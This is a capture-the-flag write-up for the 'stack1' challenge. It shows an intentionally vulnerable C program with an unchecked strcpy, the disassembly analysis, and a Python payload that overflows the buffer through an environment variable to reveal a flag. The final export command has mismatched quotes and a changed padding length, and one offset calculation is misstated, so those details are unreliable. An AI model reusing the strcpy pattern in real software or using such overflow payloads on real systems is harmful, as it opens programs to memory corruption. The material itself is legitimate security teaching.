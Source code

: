 ```yaml
---
title:  "Writeup: stack1"
date:   2019-03-26 09:00:00
categories: writeup
layout: post
author: Tim Winters
---
```


The stack1 challenge is very similar to stack0. We have a variable `modified` that is set to 0, but is checked against a non-zero value.  Examining the code we see a call to `strcpy` thaat writes the value of environment variable `GREENIE` into `buffer`. We will use this unchecked call to exploit the code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;
  FILE *fp;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;
  strcpy(buffer, variable);
  fp  = fopen("./flag.txt", "r");

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
      exit(0);
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```


Let's start by determining the addresses of our variables.

```asm
...
   0x080485c1 <+70>:	push   DWORD PTR [ebp-0xc]
   0x080485c4 <+73>:	lea    eax,[ebp-0x54]
   0x080485c7 <+76>:	push   eax
   0x080485c8 <+77>:	call   0x8048400 <strcpy@plt>
...   
```
Here we have the instructions that set up the stack for the call to `strcpy`. x86 conventions say that the arguments are put on the stack in reverse order. Therefore, `ebp-0x54` is the address of `buffer`. 

Later on we see 

```asm
0x080485e8 <+109>:	mov    eax,DWORD PTR [ebp-0x14]
0x080485eb <+112>:	cmp    eax,0xd0a0d0a
```
This comparison matches up with the comparison of `modified` in the source code. `ebp-0x14` is the address of our modified variable. 

`0x54 - 0x14` = `0x64`. We need 64 bytes of data before we start overwriting our variable. 

To properly write the value of `0xd0a0d0a` it is not enough to simple have our input be `"...aad0a0d0a"`. This will not write the raw bytes, but rather the ascii bytes of the characters. Instead, we can use python to create these literals. 

```
> python -c "import struct; print 'a'*64 + struct.pack('I', 0xd0a0d0a)"
```

It is not enough to simply pass this into `stdin`. Looking at the source code, it pulls our overflowing text from the `GREENIE` environment variable. To set it 

``export GREENIE=`python -c "import struct; print 'a'*65 + struct.pack('I", 0xd0a0d0a)"` ``

Then run the executable normally

```
> ./stack1
you have correctly modified the variable
flag: adec00ee873ae277be6a5548188d80d6
```
